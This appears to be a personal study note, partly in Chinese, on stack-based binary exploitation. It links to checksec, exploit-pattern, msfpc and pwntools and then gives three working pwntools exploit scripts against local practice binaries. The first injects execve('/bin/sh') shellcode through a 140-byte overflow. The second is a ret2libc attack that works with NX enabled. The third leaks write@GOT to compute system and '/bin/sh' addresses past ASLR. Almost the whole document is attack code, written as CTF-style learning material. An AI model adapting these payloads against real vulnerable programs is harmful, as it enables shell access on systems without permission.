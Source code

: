 -fno-stack-protector和-z execstack这两个参数会分别关掉DEP和Stack Protector。

https://segmentfault.com/a/1190000005888964
http://peckerwood.top/post/rop_0x01/
### checksec
https://github.com/slimm609/checksec.sh

### pattern.py:
https://github.com/Svenito/exploit-pattern

### MSF
https://github.com/g0tmi1k/msfpc

### pwn tools
https://docs.pwntools.com/en/stable/

### code
```python
#!/usr/bin/env python3


# NX = OFF, ASLR = OFF, Canary = OFF

from pwn import *
import binascii

p = process('./rop')
ret = 0xffffd080
# core dump的buf地址可能会改变，需要在一段时间后执行脚本要重新计算ret值
shellcode = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += b"\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += b"\x0b\xcd\x80"

#print (binascii.hexlify(shellcode))

"""
shellcode = asm('''
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f  
push 0x6e69622f   
mov ebx, esp
mov al, 11
int 0x80
''')
"""

code = shellcode
code += bytes(('A' * (140 - len(shellcode))).encode())
code += p32(ret)
print (binascii.hexlify(bytearray(code)))

p.send(code)

p.interactive()

```
## ret2libc NX enabled
``` python
#!/usr/bin/env python3
from pwn import *
import binascii

p = process('./rop_ep')

# system() address in libc. 
# gdb$ break main 
# gdb$ run
# gdb$ print system  
system = 0xf7e132e0

# "/bin/sh" in libc.
# gdb$ print __libc_start_main
# gdb$ find &libc_main(), +22000, "/bin/sh"
param = 0xf7f540af

code = bytes(('A' * 140).encode())
code += p32(system) 
code += p32(0xdeadbeef)
code += p32(param)
print (binascii.hexlify(bytearray(code)))

p.send(code)

p.interactive()
```
## ASLR + NX enabled

```python

#!/usr/bin/env python3
from pwn import *
import binascii

# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)
# ASLR:     Enabled

p = process('./rop_aslr')

libc = ELF('libc.so.6')
elf = ELF("rop_aslr")

# call write@plt to print the write() address
plt_wr = elf.symbols['write']
print('plt_addr= ' + hex(plt_wr))
got_wr = elf.got['write']
print('got_addr= ' + hex(got_wr))
fun_addr = 0x08048456
payload = bytes(('A'*140).encode()) + p32(plt_wr) + p32(fun_addr) + p32(1) + p32(got_wr) + p32(4)
p.send(payload)

# calculate the relative distance of write and system() & "/bin/sh"
wr_addr = u32(p.recv(4))
print('wr_addr= ' + hex(wr_addr))
system_addr = wr_addr - (libc.symbols['write'] - libc.symbols['system'])
print('system_addr= ' + hex(system_addr))
binsh_addr = wr_addr - (libc.symbols['write'] - next(libc.search(bytes(('/bin/sh').encode()))))
print('binsh_addr= ' + hex(binsh_addr))

payload2 = bytes(('A'*140).encode()) + p32(system_addr) + p32(fun_addr) + p32(binsh_addr)

# send the code
p.send(payload2)
p.interactive()
```
